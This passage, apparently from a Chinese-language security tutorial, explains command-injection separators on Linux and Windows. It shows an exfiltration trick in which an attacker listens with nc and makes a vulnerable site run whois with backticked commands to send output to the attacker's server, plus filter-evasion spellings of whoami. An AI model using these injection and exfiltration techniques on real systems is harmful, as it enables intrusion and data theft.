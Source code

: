   
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RicF3aYe3icW4ct3ZPWkRu2ibudTt0U3bmicc0LjDcQs9CYoponVHGCdYUJ8tP5EzugPvKq70BQx0UTuPIBQrcMreg/640?wx_fmt=png&from=appmsg "")  
  
";"linux下分号表示命令结束后执行后的命令  
,无论前面的命令是否执行  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RicF3aYe3icW4ct3ZPWkRu2ibudTt0U3bmicqQVNNN6xu0ZOMIDqPN9VQk7v07qo0229sprvwN3weOwx2aDzzxlaCw/640?wx_fmt=png&from=appmsg "")  
  
"|"在linux中  
,可以连接命令  
,和win一样  
,也只会执行后面的那条命令其他符号如  
||  
,  
&  
,  
&&和windows是一样的  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RicF3aYe3icW4ct3ZPWkRu2ibudTt0U3bmiclM3eia8Jicb5BOvndy5Hd5hdxCmFHUlQbWgOvbEPlOCfuULnE0TXpCLw/640?wx_fmt=png&from=appmsg "")  
  
  
2.利用未被过滤的命令  
  
自己的服务器中  
:nc   
-lvvp端口payload发送给对方  
:whois   
-h监听ip端口  
`命令`  
//``为反引号那么他会将whoami的结果反弹到我们的服务器当中  
  
  
我们的服务器  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RicF3aYe3icW4ct3ZPWkRu2ibudTt0U3bmicEsvUQmEG0Oh1KibMWAJUV1V7iaCOM9BnCTdyVpZBsdjTKG1sfIquibmew/640?wx_fmt=png&from=appmsg "")  
  
发送对方执行  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RicF3aYe3icW4ct3ZPWkRu2ibudTt0U3bmicepPiaDIIstCcB6FtJ53wPnYlo68FnP4t8ic1GM5t4fv5r98FrfJToYQQ/640?wx_fmt=png&from=appmsg "")  
  
反弹到我们服务器当中  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RicF3aYe3icW4ct3ZPWkRu2ibudTt0U3bmicXmz5zgTE5Wtb8wU8d5tDOmPH6HicJknSadZpKVkVdodKSibTMw4frWrA/640?wx_fmt=png&from=appmsg "")  
  
使用whois来执行命令和传输文件在实际的攻击场景中  
,可以在自己的攻击服务器上用nc监听一个公网端口  
,在存在命令执行的网站中发送payload请求对它使用whois命令使其命令执行结果返回给nc监听的端口  
,从而在自己服务器中查看  
  
  
3.linux进阶,符号之间的组合  
  
windows下  
""  
^都不会影响命令的执行whoamiw\hoamiwho$@amiwhoa$  
*mi  
  